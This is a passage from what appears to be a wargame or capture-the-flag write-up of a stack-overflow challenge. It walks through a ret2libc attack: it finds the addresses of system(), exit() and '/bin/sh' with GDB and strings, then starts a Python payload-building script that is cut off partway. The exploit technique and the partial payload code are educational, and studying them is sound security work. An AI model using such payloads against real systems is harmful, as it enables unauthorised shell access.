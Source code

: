 From the above, we can see the base address of libc is "0xb7e97000" and the actual library itself is located in "/lib/libc-2.11.2.so". Also the return address limitation will not be triggered by a return address in this library as  we will not be within the "0xbf000000" - "0xbfffffff" range.

Now we know our base address (which will come in handy shortly), we want to find the addresses of two libc functions, system() and exit(). Again, we can use GDB to find these in the current process:

```
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>

(gdb) print exit
$1 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
```

These will make sense if you know how to do ret2libc attacks or have read additional information about them. I am just going to assume you are comfy with it and can continue following along. Our final goal is to find the offset of the string "/bin/sh" within libc. This can be easily done with 'strings':

```
$  strings -a -t x /lib/libc-2.11.2.so | grep /bin/sh
11f3bf /bin/sh
```

We want to use this offset with the base address to give us the exact location of this string within the processes memory:

​	"0xb7e97000" + "0x0011f3bf" = "0xb7fb63bf"

So, we now have the three important addresses we need to complete our ret2libc attack:

- system()   =>   0xb7ecffb0
- exit()         =>   0xb7ec60c0
- /bin/sh     =>   0xb7fb63bf

Okay, so now we have our important values, we need to know how our call to system() will look. As this is x86, we need to adhere to the calling convention of a function. Arguments are pushed onto the stack in the parameter order, followed by the call. So if we reverse this for our payload we will be pushing our function, followed by a pointer to our argument.

For a ret2libc attack, we want our payload to look like the following:

	junk + system() + exit() + "/bin/sh"

Breaking this down, we have our "A" buffer, followed by our EIP overwrite which is our system() call, followed by the return address that we want to land in after our system() call, in this case exit(). Finally followed by the address of our system() parameter, which in this case is our "/bin/sh" string located within libc itself. 

With our previously calculated values, let's try out a payload. This is the first stack challenge where I needed a little script to complete the generation of the payload. With various values required, it felt easier in the text editor rather than a one-liner:

stack6.py:

```
import struct
def build():
    libc_base = 0xb7e97000
    binsh_offset = 0x11f3bf
  
    string_addr = libc_base + binsh_offset
    system_addr = 0xb7ecffb0
    exit_addr = 0xb7ec60c0

    padding = 'A' * 80

    payload = padding
    payload += struct.pack("I", system_addr)
    payload += struct.pack("I", exit_addr)
```